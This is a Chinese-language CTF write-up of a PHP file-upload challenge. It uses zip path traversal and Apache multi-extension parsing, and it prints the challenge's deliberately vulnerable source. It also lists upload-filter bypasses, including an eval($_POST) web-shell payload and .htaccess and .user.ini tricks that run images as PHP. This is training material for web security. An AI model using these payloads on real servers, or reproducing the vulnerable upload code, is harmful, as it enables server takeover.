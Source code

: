 ```yaml
---
Author: SuperJason
Date: 2020-12-21
---
```


## flag
n1book{ThisIsUpLoadToPicfl4g}

## 思路
1. 访问环境，php文件上传源码解析题，用户可以上传zip、jpg、gif、png文件。其中zip文件中不能包含php文件
2. 上传成功的jpg、gif、png文件会被放入一个随机数构造的文件目录中，需要使用目录穿越  
```php
$temp_dir = $dir.md5(time(). rand(1000,9999));
......
if($ext == 'zip'){
    ......
    check_dir($dir);
    exit('上传成功!');
}else{
    move_uploaded_file($file['tmp_name'], $temp_dir.'/'.$file['name']);
    check_dir($dir);
    exit('上传成功!');
```
3. check_dir函数的功能是确保上传的文件后缀名为jpg、gif、png，如果是其他后缀名则删除文件。   
   - `opendir`创建文件目录句柄
   - `readdir`返回目录中下一个文件的文件名
   - `move_uploaded_file ( string $filename , string $destination ) : bool`检查并确保由 filename 指定的文件是合法的上传文件（即通过 PHP 的 HTTP POST 上传机制所上传的）。如果文件合法，则将其移动为由 destination 指定的文件。
4. 这道题的攻击点已经出来了。
   - 压缩包文件目录穿越
   - Apache php文件解析漏洞，xxx.php.xxx被解析为php
5. 原始123456789123456789.php文件内容为  
```php
<?php
echo phpinfo();
?>
```
6. 通过010editor构造恶意压缩包，这里需要注意修改后的文件名长度与修改前一致，否则解压会报错，这里改为`/../../jason07.php.xxx`  
![](./images/file-upload-1.png)
7. 上传[压缩包](./scripts/123456789123456789.zip)，访问`jason07.php.xxx`，得到flag，不过这道题没有把phpinfo()解析出来。  
![](./images/file-upload-2.png)


## 总结
文件上传主要是上传恶意php，该文件要能被访问并且被服务器解析，本题考点在于
- 压缩包文件目录穿越，压缩包内文件命名为  
  `/../../xxx.php.xxx`
- Apache php解析漏洞  
  `xxx.php.xxx`被当成`xxx.php`解析
- php源码分析  
### 进一步的扩宽一下难度
- 服务器端可能会校验文件格式，例如严格限制jpg的格式，可能需要用到[jpg_payload脚本](./scripts/jpg_payload.php)在jpg中插入恶意php载荷
- IIS6 `*.asp`文件夹下所有文件被当做脚本进行解析，例如`x.asp,a.jpg`
- php可执行后缀  
  `php3、php5、phtml、pht`   
  其中phtml的载荷可以为`<script language="php">eval($_POST['shell']);</script>`    
  如果需要绕过图片限制，可以在载荷前一行加`GIF`
- asp可执行后缀  
  `cdx、cer、asa`
- jsp可执行后缀  
  `jspx`
- 将.htacess或.user.ini文件伪造成图片文件格式上传，使得含恶意载荷的jpg文件可以被解析
    - `.htacess`，让含test字符的文件当做php解析
    ```
    GIF
    <FilesMatch "test">
    SetHandler application/x-httpd-php
    </FilesMatch>
    ```
    - `.user.ini`，表示执行该目录的php文件时都会包含test.jpg，一般需要先上传含有恶意php载荷的图片test.jpg，然后请求该目录下的*.php文件，使用antsword连接。
    ```
    GIF
    auto_prepend_file=test.jpg
    ```

## 源代码
```php
<?php
header("Content-Type:text/html; charset=utf-8");
// 每5分钟会清除一次目录下上传的文件
require_once('pclzip.lib.php');

if(!$_FILES){

        echo '

<!DOCTYPE html>
<html lang="zh">
<head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>文件上传章节练习题</title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@3.3.7/dist/css/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
    <style type="text/css">
        .login-box{
            margin-top: 100px;
            height: 500px;
            border: 1px solid #000;
        }
        body{
            background: white;
        }
        .btn1{
            width: 200px;
        }
        .d1{
            display: block;
            height: 400px;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="login-box col-md-12">
        <form class="form-horizontal" method="post" enctype="multipart/form-data" >
            <h1>文件上传章节练习题</h1>
            <hr />
            <div class="form-group">
                <label class="col-sm-2 control-label">选择文件：</label>
                <div class="input-group col-sm-10">
                    <div >
                    <label for="">
                        <input type="file" name="file" />
                    </label>
                    </div>
                </div>
            </div>
                
        <div class="col-sm-8  text-right">
            <input type="submit" class="btn btn-success text-right btn1" />
        </div>
        </form>
        </div>
    </div>
</body>
</html>
';

    show_source(__FILE__);
}else{
    $file = $_FILES['file'];

    if(!$file){
        exit("请勿上传空文件");
    }
    $name = $file['name'];

    $dir = 'upload/';
    $ext = strtolower(substr(strrchr($name, '.'), 1));
    $path = $dir.$name;

    function check_dir($dir){
        $handle = opendir($dir);
        while(($f = readdir($handle)) !== false){
            if(!in_array($f, array('.', '..'))){
                if(is_dir($dir.$f)){
                    check_dir($dir.$f.'/');
                 }else{
                    $ext = strtolower(substr(strrchr($f, '.'), 1));
                    if(!in_array($ext, array('jpg', 'gif', 'png'))){
                        unlink($dir.$f);
                    }
                }
            
            }
        }
    }

    if(!is_dir($dir)){
        mkdir($dir);
    }

    $temp_dir = $dir.md5(time(). rand(1000,9999));
    if(!is_dir($temp_dir)){
        mkdir($temp_dir);
    }

    if(in_array($ext, array('zip', 'jpg', 'gif', 'png'))){
        if($ext == 'zip'){
            $archive = new PclZip($file['tmp_name']);
            foreach($archive->listContent() as $value){
                $filename = $value["filename"];
                if(preg_match('/\.php$/', $filename)){
                     exit("压缩包内不允许含有php文件!");
                 }
            }
            if ($archive->extract(PCLZIP_OPT_PATH, $temp_dir, PCLZIP_OPT_REPLACE_NEWER) == 0) {
                check_dir($dir);
                   exit("解压失败");
            }

            check_dir($dir);
            exit('上传成功!');
        }else{
            move_uploaded_file($file['tmp_name'], $temp_dir.'/'.$file['name']);
            check_dir($dir);
            exit('上传成功!');
        }
    }else{
        exit('仅允许上传zip、jpg、gif、png文件!');
    }
}
```
